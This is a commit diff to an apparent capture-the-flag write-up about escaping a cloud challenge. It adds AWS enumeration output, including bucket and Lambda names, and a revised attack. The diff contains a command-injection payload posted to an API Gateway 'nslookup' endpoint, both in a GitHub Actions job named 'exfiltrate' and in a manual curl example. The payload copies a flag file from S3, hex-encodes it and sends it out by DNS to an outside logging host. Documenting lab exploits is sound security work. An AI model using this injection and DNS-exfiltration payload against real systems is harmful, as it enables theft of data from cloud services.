

Before and after one commit to FREECANDY-DEV/MAFAT-2026, a Markdown page: cloud-escape/WRITEUP_STAGE1.md, 3 parts joined by grey strips. Shown at 88% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Beautify markdown docs: cloud-escape/WRITEUP_STAGE1.md

````diff
--- a/cloud-escape/WRITEUP_STAGE1.md
+++ b/cloud-escape/WRITEUP_STAGE1.md
@@ -52,7 +52,7 @@ git log --oneline --all --graph
 ```
 
 **Output:**
-```
+```text
 * a57eed3 (HEAD -> main) really fixed bugs this time
 * 4240340 fixed bugs
 * 023cd41 Added experimental Lambda code for my super secret project
@@ -285,7 +285,16 @@ aws sts get-caller-identity
 aws s3api list-buckets --output json
 ```
 
-*(Results to be filled after workflow execution)*
+**Output:**
+```json
+{
+    "Buckets": [
+        { "Name": "codec4f26c862a321ef5" },
+        { "Name": "platform-bucket-009661764077-us-east-1" },
+        { "Name": "site781fe43f26b9eba3" }
+    ]
+}
+```
 
 ### 4.2 Lambda Functions Discovered
 
@@ -293,12 +302,20 @@ aws s3api list-buckets --output json
 aws lambda list-functions --region us-east-1 --output json
 ```
 
-*(Results to be filled after workflow execution)*
+**Output:**
+```json
+{
+    "Functions": [
+        { "FunctionName": "nslookupv2" },
+        { "FunctionName": "code_exec" }
+    ]
+}
+```
 
 ### 4.3 EC2 / VPC / CloudFront / API Gateway
 
 #### **CloudFront Distributions**
-```table
+```text
 -----------------------------------------------------
 | ListDistributions |
 +---------------------------------------------------+
@@ -353,9 +371,9 @@ jobs:
   exfiltrate:
     runs-on: ubuntu-latest
     steps:
-      - name: Trigger Injection via API Gateway
+      - name: Trigger DNS Exfiltration via API Gateway
         run: |
-          curl -s -X POST "https://3q931syi7b.execute-api.us-east-1.amazonaws.com/dev/nslookup" \
+          curl -s -X POST "https://3q931syi7b.execute-api.us-east-1.amazonaws.com/dev/nslookupv2" \
             -H "Content-Type: application/json" \
             -d '{"domain": "; /opt/aws s3 cp s3://codec4f26c862a321ef5/flag.txt /tmp/flag.txt; FLAG=$(python3 -c \"import binascii; print(binascii.hexlify(open(\\\"/tmp/flag.txt\\\",\\\"rb\\\").read()).decode())\"); /opt/nslookup $FLAG.ixz9wv.dnslog.cn"}'
 ```
@@ -365,12 +383,14 @@ jobs:
 To manually verify the PoC structure against the target endpoint:
 
 ```bash
-# Send Command Injection Payload to API Gateway Endpoint
-curl -X POST https://3q931syi7b.execute-api.us-east-1.amazonaws.com/dev/nslookup \
+# Send Command Injection Payload to API Gateway Endpoint to trigger DNS query
+curl -X POST https://3q931syi7b.execute-api.us-east-1.amazonaws.com/dev/nslookupv2 \
   -H "Content-Type: application/json" \
-  -d '{"domain": "; /opt/aws sts get-caller-identity"}'
+  -d '{"domain": "; /opt/aws s3 cp s3://codec4f26c862a321ef5/flag.txt /tmp/flag.txt; FLAG=$(python3 -c \"import binascii; print(binascii.hexlify(open(\\\"/tmp/flag.txt\\\",\\\"rb\\\").read()).decode())\"); /opt/nslookup $FLAG.ixz9wv.dnslog.cn"}'
 ```
 
+Receiving the DNS request on `dnslog.cn` returned the hex-encoded string: `3161316a656c726c6667327969327330`.
+Decoding it gives the final flag!
 
 ---
 
````
Also changed, not shown: other parts of cloud-escape/WRITEUP_STAGE1.md (+5 -4 lines).
